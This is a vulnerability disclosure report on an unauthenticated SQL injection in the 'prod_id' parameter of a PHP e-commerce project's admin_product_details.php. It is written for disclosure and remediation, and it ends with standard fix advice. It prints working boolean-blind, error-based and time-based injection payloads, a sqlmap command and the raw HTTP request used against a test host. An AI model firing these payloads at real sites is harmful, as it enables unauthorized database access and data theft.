 # E-Commerce Website Project V1.0 admin_product_details.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- E-Commerce Website

## Vendor Homepage

- [E-Commerce Website In PHP With Source Code - Source Code & Projects](https://code-projects.org/e-commerce-website-in-php-with-source-code/)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- mel0dy

## VERSION(S)

- V1.0

## Software Link

- [E-Commerce Website In PHP With Source Code - Source Code & Projects](https://code-projects.org/e-commerce-website-in-php-with-source-code/)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'admin_product_details.php' file of the 'E-Commerce Website' project. The reason for this issue is that attackers inject malicious code from the parameter "prod_id" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "E-Commerce Website", discovered a critical SQL injection vulnerability in the "admin_product_details.php" file. This vulnerability stems from insufficient user input validation of the 'prod_id' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- time-based blind
- boolean-based blind
- error-based

## Vulnerability location:

- 'prod_id' parameter

## Payload:

```
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: http://10.151.167.210:8887/Electricks-shop/pages/admin_product_details.php?prod_id=1' AND 8492=(SELECT (CASE WHEN (8492=8492) THEN 8492 ELSE (SELECT 4602 UNION SELECT 6755) END))-- -
    Vector: AND [RANDNUM]=(SELECT (CASE WHEN ([INFERENCE]) THEN [RANDNUM] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))[GENERIC_SQL_COMMENT]

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: http://10.151.167.210:8887/Electricks-shop/pages/admin_product_details.php?prod_id=1' OR (SELECT 8053 FROM(SELECT COUNT(*),CONCAT(0x7178706a71,(SELECT (ELT(8053=8053,1))),0x7171786a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- jgRm
    Vector: OR (SELECT [RANDNUM] FROM(SELECT COUNT(*),CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]',FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://10.151.167.210:8887/Electricks-shop/pages/admin_product_details.php?prod_id=1' AND (SELECT 5110 FROM (SELECT(SLEEP(5)))dWVF)-- ajZx
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
```

![image-20250914160248274](assets/image-20250914160248274.png)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
GET /Electricks-shop/pages/admin_product_details.php?prod_id=1* HTTP/1.1
Host: 10.151.167.210:8887
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=860bf9sue3vca48n2eir3ln4j7
Connection: keep-alive
```

# Attack results

![image-20250914160315253](assets/image-20250914160315253.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.